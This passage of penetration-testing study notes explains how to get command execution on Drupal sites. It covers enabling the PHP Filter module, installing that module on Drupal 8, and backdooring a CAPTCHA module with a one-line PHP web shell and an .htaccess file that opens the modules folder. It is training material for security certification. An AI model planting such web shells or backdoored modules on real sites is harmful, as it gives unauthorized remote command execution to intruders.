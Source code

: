 Go to _Modules_ -> (**Check**) _PHP Filter_ -> _Save configuration_

[![](https://github.com/dev-angelist/eCPPTv2-PTP-Notes/raw/main/.gitbook/assets/image%20\(21\).png)](.gitbook/assets/image%20\(21\).png)

Then click on _Add content_ -> Select _Basic Page_ or _Article -_> Write _php shellcode on the body_ -> Select _PHP code_ in _Text format_ -> Select _Preview_

[![](https://github.com/dev-angelist/eCPPTv2-PTP-Notes/raw/main/.gitbook/assets/image%20\(22\).png)](.gitbook/assets/image%20\(22\).png)

Finally just access the newly created node:

```
curl http://drupal-site.local/node/3
```

**Install PHP Filter Module**

From version **8 onwards, the** [**PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **module is not installed by default**. To leverage this functionality, we would have to **install the module ourselves**.

1. Download the most recent version of the module from the Drupal website.
   1. wget [https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz](https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz)
2. Once downloaded go to **`Administration`** > **`Reports`** > **`Available updates`**.
3. Click on **`Browse`**`,` select the file from the directory we downloaded it to, and then click **`Install`**.
4. Once the module is installed, we can click on **`Content`** and **create a new basic page**, similar to how we did in the Drupal 7 example. Again, be sure to **select `PHP code` from the `Text format` dropdown**.

**Backdoored Module**

A backdoored module can be created by **adding a shell to an existing module**. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). Scroll down and copy the link for the tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Download the archive and extract its contents.

```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

* Create a **PHP web shell** with the contents:

```
<?php
system($_GET["cmd"]);
?>
```

* Next, we need to create a **`.htaccess`** file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the **`/modules`** folder.

```
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

